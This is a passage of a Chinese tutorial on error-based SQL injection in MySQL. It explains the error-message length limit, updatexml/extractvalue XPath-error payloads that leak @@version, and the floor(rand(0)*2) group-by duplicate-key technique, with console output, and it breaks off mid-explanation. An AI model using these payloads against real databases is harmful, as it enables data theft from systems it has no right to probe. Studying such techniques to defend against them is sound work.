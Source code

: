 此外，报错信息是有长度限制的，在mysql/my_error.c中可以看到：
```shell
/* Max length of a error message. Should be
kept in sync with MYSQL_ERRMSG_SIZE. */

#define ERRMSGSIZE (512)
```

## 2. xpath语法错误
从 mysql5.1.5 开始提供两个[XML查询和修改的函数](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html)，extractvalue和updatexml。

extractvalue负责在xml文档中按照xpath语法查询节点内容，updatexml则负责修改查询到的内容:
```shell
mysql> select extractvalue(1,'/a/b');
+------------------------+
| extractvalue(1,'/a/b') |
+------------------------+
|                        |
+------------------------+
1 row in set (0.01 sec)
```

它们的第二个参数都要求是符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里：
```shell
mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
```

## 3. 主键重复
> 相关函数
> - rand()：产生一个 0~1 的随机数
> - floor()：向下取整
> - floor(rand(0)*2))：原本 floor(rand(0)) 得到固定的0，但乘以2 后得到的就是不固定的 0 或者 1

这里利用到了count()和group by在遇到rand()产生的重复值时报错的思路。网上比较常见的payload是这样的：
```shell
mysql> select count(*) from test group by concat(version(),floor(rand(0)*2));
ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'
```
可以看到错误类型是duplicate entry，即主键重复。实际上只要是count，rand()，group by三个连用就会造成这种报错，与位置无关：
```shell
mysql> select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'
```

这种报错方法的本质是因为floor(rand(0)*2)的重复性，导致group by语句出错。group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中更新临时表的数据；如果key不在临时表中，则在临时表中插入key所在行的数据。举个例子，表中数据如下：
```shell
mysql> select * from test;
+------+-------+
| id   | name  |
+------+-------+
| 0    | jack  |
| 1    | jack  |
| 2    | tom   |
| 3    | candy |
| 4    | tommy |
| 5    | jerry |
+------+-------+
6 rows in set (0.00 sec)
```
我们以`select count(*) from test group by name`语句说明大致过程如下：